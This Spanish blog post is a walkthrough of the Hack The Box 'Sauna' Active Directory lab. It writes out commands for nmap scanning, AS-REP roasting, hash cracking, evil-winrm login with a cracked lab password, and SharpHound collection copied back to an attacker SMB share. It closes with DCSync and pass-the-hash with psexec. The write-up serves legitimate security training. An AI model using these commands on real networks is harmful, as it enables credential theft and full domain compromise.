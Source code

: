 ```yaml
---
layout: single
title: Sauna - Hack The Box
excerpt: "Sauna fue una buena oportunidad para jugar con los conceptos de Windows Active Directory empaquetados en una caja de dificultad fácil. Comenzaré usando una fuerza bruta de Kerberoast en los nombres de usuario que encontre en la pagina web, luego descubriré que uno de ellos tiene la bandera configurada para permitirme obtener su hash sin autenticarme en el dominio. Haré AS-REP Roast para obtener el hash, romperlo y obtener una shell. Encontraré las credenciales de los próximos usuarios en la clave de registro de AutoLogon. BloodHound mostrará que el usuario tiene privilegios que le permiten realizar un ataque DC Sync, que proporciona todos los hashes de dominio, incluidos los administradores, que usaré para obtener un shell."
date: 2021-07-05
classes: wide
header:
  teaser: /assets/images/Sauna/Untitled.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:
  -   Active Directory
  -   ASP-RESP Roasting
  -   OSCP
---
```


<div>
<p style = 'text-align:center;'>
<img src="http://www.hackthebox.eu/badge/image/497437" alt="" width="200px">
</p>
</div>

# Sauna 

Buenas a todos, hoy voy a estar resolviendo la maquina Sauna de HackTheBox, es una maquina Windows de dificultad facil, en ella vamos a tocar Directorio Activo.

![/assets/images/Sauna/Untitled.png](/assets/images/Sauna/Untitled.png)

# **ENUMERACIÓN CON NMAP**

Lo primero de todo como siempre será enumerar que puertos tiene abiertos la maquina, para ellos vamos a utilizar la herramienta "nmap" con la que haremos un escaneo exhaustivo de puertos.

Para hacer un "Fast Scan" de puertos, siempre suelo utilizar esta sintaxis:

`nmap -sS —min-rate 5000 -p- —open -n -Pn -vvv <IPMACHINE> -oN <FILENAME>` 

![/assets/images/Sauna/Untitled%201.png](/assets/images/Sauna/Untitled%201.png)

Yo lo exporto en formato Grep para extraer los puertos con la utilidad "extractPorts" del Youtuber/Streamer "S4vitaar".

Esta utilidad me copia los puertos en la clipboard. Os comparto el Script por aquí pero recordad dejar una estrellita en el Github de S4vitar: (solo tenéis que tener instalado xclip y pegar este código en la .bashrc o .zshrc)

[https://pastebin.com/tYpwpauW](https://pastebin.com/tYpwpauW) 

![/assets/images/Sauna/Untitled%202.png](/assets/images/Sauna/Untitled%202.png)

Ahora vamos a enumerar versiones y servicios de todos los puertos con Nmap:

`nmap -sC -sV -p<PUERTOS> <IPMACHINE> -oN <FILENAME>`

![/assets/images/Sauna/Untitled%203.png](/assets/images/Sauna/Untitled%203.png)

Vemos que nmap nos arroja un nombre de dominio llamado: EGOTISTICAL-BANK.LOCAL , vamos a añadirlo al /etc/hosts junto con sauna.htb

Después de enumerar un poco los puertos, no veo nada interesante en el puerto 445 (SAMBA) un puerto que siempre es muy importante de echarle un vistazo, pero no tenemos acceso para poder ver los recursos, así que voy a ir directamente al servicio web que corre en el puerto 80. 

![/assets/images/Sauna/Untitled%204.png](/assets/images/Sauna/Untitled%204.png)

Vemos en About Us que hay unos nombres de usuarios con los que podriamos crear posibles usuarios:

![/assets/images/Sauna/Untitled%205.png](/assets/images/Sauna/Untitled%205.png)

![/assets/images/Sauna/Untitled%206.png](/assets/images/Sauna/Untitled%206.png)

Con la utilidad GetNPUsers.py, podemos hacer un ataque ASP-RESP Roasting, intentararemos obtener algun hash:

`python3 GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -userfile users -format hashcat -outputfile hash -dc-ip 10.10.10.175`

![/assets/images/Sauna/Untitled%207.png](/assets/images/Sauna/Untitled%207.png)

Vamos a intentar crackear con john el hash:

![/assets/images/Sauna/Untitled%208.png](/assets/images/Sauna/Untitled%208.png)

Ya tenemos la contraseña del usuario `fsmith:Thestrokes23`

Vamos a intentar conectarnos al sistema con Evil-WinRM:

`evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23`

![/assets/images/Sauna/Untitled%209.png](/assets/images/Sauna/Untitled%209.png)

![/assets/images/Sauna/Untitled%2010.png](/assets/images/Sauna/Untitled%2010.png)

# **PRIV. ESCALATION ROOT**

Nos compartimos un servidor http con python con el comando :

`python3 -m http.server 80`

![/assets/images/Sauna/Untitled%2011.png](/assets/images/Sauna/Untitled%2011.png)

Pasamos el script de powershell `SharpHound.ps1` a la maquina y ejecutamos el comando :

`Invoke-BloodHound -CollectionMethod All`

![/assets/images/Sauna/Untitled%2012.png](/assets/images/Sauna/Untitled%2012.png)

Para que nos haga una recopilacion de todo el sistema y nos lo guarde en un .zip, que nos vamos a pasar a nuestra maquina, para ello compartimos una carpeta de nuestro sistema con la maquina:

`python3 smbserver.py share . -smb2support -username pwned -password password123`

![/assets/images/Sauna/Untitled%2013.png](/assets/images/Sauna/Untitled%2013.png)

Y en la maquina remota :

`net use \\IP\share /u:pwned password123`

De esta manera nos compartimos la carpeta actual y podemos copiar el .zip a nuestra maquina:

`copy <FILENAME.ZIP> \\IP\share`

![/assets/images/Sauna/Untitled%2014.png](/assets/images/Sauna/Untitled%2014.png)

Abrimos nuestro BloodHound y agregamos el .zip para ver de que forma podemos escalar privilegios:

Enumerando un poco encontramos que hay un usuario (SVC_LOANGMGR) con el que podríamos convertirnos en Domain Admins:

![/assets/images/Sauna/Untitled%2015.png](/assets/images/Sauna/Untitled%2015.png)

Vamos a enumerar un poco mas el sistema para ver si conseguimos convertirnos en ese usuario, voy a utilizar Invoke-winPEAS.ps1, me lo comparto de la misma forma que antes y ejecuto:

`Invoke-winPeas`

Y nos reporta unas credenciales de un usuario llamado svc_loanmanager: 

![/assets/images/Sauna/Untitled%2016.png](/assets/images/Sauna/Untitled%2016.png)

Vamos a intentar conectarnos a esa cuenta a traves de evil-winrm:

![/assets/images/Sauna/Untitled%2017.png](/assets/images/Sauna/Untitled%2017.png)

Si nos fijamos bien no hay ningun usuario llamado svc-loanmanager:

![/assets/images/Sauna/Untitled%2018.png](/assets/images/Sauna/Untitled%2018.png)

Vamos a intentar utilizar esas credenciales para el usuario que necesitamos svc_loanmgr:

![/assets/images/Sauna/Untitled%2019.png](/assets/images/Sauna/Untitled%2019.png)

Estamos dentro de la cuenta que necesitamos, ahora toca escalar privilegios tal y como nos muestra BloodHound:

![/assets/images/Sauna/Untitled%2020.png](/assets/images/Sauna/Untitled%2020.png)

Podemos realizar un ataque DCSync con el usuario SVC_LOANMGR, Para extraer credenciales del controlador de dominio sin ejecución de código en él podemos usar la herramienta secretsdump de impacket o con mimikatz como dice BloodHound:

![/assets/images/Sauna/Untitled%2021.png](/assets/images/Sauna/Untitled%2021.png)

Ya tenemos el hash del administrador del dominio, podemos usar la herramienta psexec de impacket para conectarnos a la maquina sin necesidad de saber su contraseña, solo con su hash es suficiente:

![/assets/images/Sauna/Untitled%2022.png](/assets/images/Sauna/Untitled%2022.png)

Espero que os haya gustado, a mi me ha encantado, las maquinas de Directorio Activo son muy divertidas de vulnerar. Hasta la próxima.